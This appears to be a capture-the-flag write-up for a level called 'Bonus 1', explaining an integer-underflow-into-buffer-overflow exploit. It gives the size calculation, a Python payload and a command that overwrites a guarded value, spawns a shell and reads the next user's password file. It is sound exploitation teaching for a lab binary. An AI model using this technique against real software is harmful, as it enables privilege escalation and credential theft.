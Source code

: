 # Bonus 1

## Initial Context

- One file: `bonus1`

## Solving the Challenge

The program expects a number below 10, and a buffer overflow.
`n` bytes will be copied from the second argument to a buffer.
If the buffer overflows, the number value is changed and must match `1464814662` to get access to a shell.

Since we need to write `44 bytes` and the number can only goes up to `9`, we have to overflow a negative value as the number is **multiplied by `4`** for the `memcpy`.

Since the size argument of `memcpy` is a `size_t` which is `unsigned`, we need to take that into account.

```c
UINT_MAX / 4 = 1073741823
(or 4294967295 / 4 = 1073741823.75 to be exact)
```

`1073741823`, negated and multiplied by 4 gives back `4` after underflow.
By adding (or subtracting since we are negative) `10` to the operation, we get our `44`.

```c
-((UINT_MAX / 4) - 10) = -1073741813
```

A small demo code is [available here](./Ressources/test.c).

To craft the second argument, its pretty simple:

```python
# padding of 40 for original buffer size
"A" * 40

# 1464814662 in LE
+ "\x46\x4c\x4f\x57"
```

We can send it to the vulnerable program:

```bash
$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
<flag>
```
